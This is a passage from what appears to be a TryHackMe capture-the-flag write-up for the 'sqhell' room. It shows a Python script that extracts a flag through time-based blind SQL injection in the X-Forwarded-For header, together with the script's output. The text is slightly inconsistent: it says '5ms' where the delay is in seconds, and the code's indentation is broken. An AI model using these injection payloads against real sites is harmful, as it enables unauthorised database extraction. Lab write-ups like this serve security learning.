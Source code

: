 ```
┌──(kali㉿kali)-[~/TryHackMe/sqhell]
└─$ python3 flag2.py
5.506915
```

So here is the logic: I will randomly input every single alphanumeric characters inside the `THM{}` and capture which response will take time up to **5ms** → The correct character in the flag.

{% raw %}

```
import requests
import string

url = "http://sqhell.thm/"

characters = string.digits + string.ascii_uppercase

flag = "THM{FLAG2:"

# Observe the total characters in 43

while len(flag) < 43:
for i in characters:
payload = "' UNION SELECT SLEEP(3),2,3 FROM flag where flag like '{}".format(flag) + "{}%'".format(i) + "#"
header = {"X-forwarded-for": payload}
response = requests.post(url, headers=header)

    	# Set the response time to capture the correct characters
    	res_time = response.elapsed.total_seconds()

    	# Add the correct character into flag
    	if res_time > 3.0:
    		flag += i
    		print("Temp flag: THM{{FLAG2:{}".format(flag))

print("Final Flag: {}".format(flag) + "}")

```

{% endraw %}
And the result:

```
┌──(kali㉿kali)-[~/TryHackMe/sqhell]
└─$ python3 flag2.py
Temp flag: THM{FLAG2:THM{FLAG2:C
Temp flag: THM{FLAG2:THM{FLAG2:C6
Temp flag: THM{FLAG2:THM{FLAG2:C67
Temp flag: THM{FLAG2:THM{FLAG2:C678
[...]
Final flag: THM{FLAG2:[REDACTED]}
```
